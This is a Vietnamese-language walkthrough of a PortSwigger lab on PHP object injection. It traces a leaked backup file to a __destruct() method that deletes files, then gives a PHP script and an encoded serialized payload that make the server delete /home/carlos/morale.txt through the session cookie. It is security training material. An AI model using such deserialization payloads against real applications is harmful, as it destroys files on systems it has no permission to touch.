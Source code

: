 # Arbitrary object injection in PHP

Source: Portswigger
Tools: Burpsuite
Technique: Arbitrary object injection, Deseirialization, serialization-based session mechanism
Fields: Web

## ***GOAL: C***reate and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory

Sau khi đăng nhập, nhận thấy ứng dụng sử dụng serialization trong session:

![https://images.viblo.asia/c378cae5-6c5f-4b7e-b34f-b70ac312dd08.png](https://images.viblo.asia/c378cae5-6c5f-4b7e-b34f-b70ac312dd08.png)

Decode:

![image.png](image.png)

Quan sát mã nguồn front-end, ứng dụng đã để lộ đường dẫn tới tệp tin **`CustomTemplate.php`**, nhưng không thể truy cập:

![https://images.viblo.asia/c612aa3b-0359-4150-b3f0-0dcc879476ae.png](https://images.viblo.asia/c612aa3b-0359-4150-b3f0-0dcc879476ae.png)

![https://images.viblo.asia/3da0bd9e-7ee9-41cf-af0d-5f2133bdad36.png](https://images.viblo.asia/3da0bd9e-7ee9-41cf-af0d-5f2133bdad36.png)

Tuy nhiên file backup **`CustomTemplate.php~`** chưa bị xóa nên chúng ta có thể đọc được nội dung file:

![https://images.viblo.asia/9edb1f51-5fbd-4a85-8138-e896350d9504.png](https://images.viblo.asia/9edb1f51-5fbd-4a85-8138-e896350d9504.png)

Như vậy chúng ta có thông tin về lớp **`CustomTemplate`** của ứng dụng. Chú ý phương thức **`__destruct()`** của lớp này:

```php
function __destruct() {
    // Carlos thought this would be a good idea
    if (file_exists($this->lock_file_path)) {
        unlink($this->lock_file_path);
    }
}
```

Nếu tồn tại tệp tin có đường dẫn **`$this->lock_file_path`** sẽ thực hiện hàm **`unlink()`** xóa tệp tin này. Ý tưởng đã khá rõ ràng, nếu kẻ tấn công có thể lợi dụng quá trình deserialization của ứng dụng nhằm xóa bất kỳ tệp tin nào trong hệ thống nếu họ biết chính xác đường dẫn.

Xây dựng script tạo payload xóa tệp tin **`/home/carlos/morale.txt`** do bài lab yêu cầu:

```php
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path = "/home/carlos/morale.txt";    
}

$payload = new CustomTemplate();
echo urlencode(base64_encode(serialize($payload)));
// TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzQ6IgBDdXN0b21UZW1wbGF0ZQB0ZW1wbGF0ZV9maWxlX3BhdGgiO047czozMDoiAEN1c3RvbVRlbXBsYXRlAGxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```

Thay payload trên vào session và gửi tới server